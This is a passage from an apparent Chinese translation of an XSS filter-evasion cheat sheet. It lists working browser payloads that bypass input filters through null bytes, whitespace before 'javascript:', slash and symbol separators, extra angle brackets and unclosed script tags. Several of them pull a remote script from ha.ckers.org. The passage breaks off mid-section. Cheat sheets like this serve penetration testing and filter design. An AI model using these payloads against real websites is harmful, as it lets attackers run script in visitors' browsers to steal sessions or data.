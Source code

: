 ```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

## 图片元素中 javascript 之前的空格和元字符为 xss

xss 过滤拼配模式没有考虑单词 "javascript:" 中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32 编码字符（十进制）中的任何字符。

```
<IMG SRC="   javascript:alert('XSS');">
```

## 非字母数字字符 xss

Firefox html 解析器设定一个非数字字母字符不是有效的在一个 html 关键字后面，因此这些字符会被视为空白符或是无效的 token 在 html 标签之后。这导致很多 xss 过滤器错误的认为 html 标签必须是被空白符隔断的。例如，"

```
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

和上面的原理相同，我们继续扩大，Gecko 渲染引擎允许字母、数字、html 封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过 xss 过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit 提示我有一个小区别在 ie 和 Gecko 渲染引擎之间是他们仅允许一个一个斜杠在 html 标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。

```
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

## 附加的开括号

Franz Sedlmaier 提出，利用这个 xss 向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的 javascript 错误。

```
<<SCRIPT>alert("XSS");//<</SCRIPT>
```

## 没关闭的 script 标签

对于使用了 Gecko 渲染引擎的 Firefox 和 Netscape 8.1 ，你并不需要常规 xss 中 "></SCRIPT>" 这部分。 Firefox 会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后 html 代码会闭合成什么样子。

```
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
```

## script 标签中的协议解析

这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh 提出的协议解析绕过。这个 xss 例子工作在 IE, 使用 IE 渲染引擎的 Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j" 是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个 script 标签中。
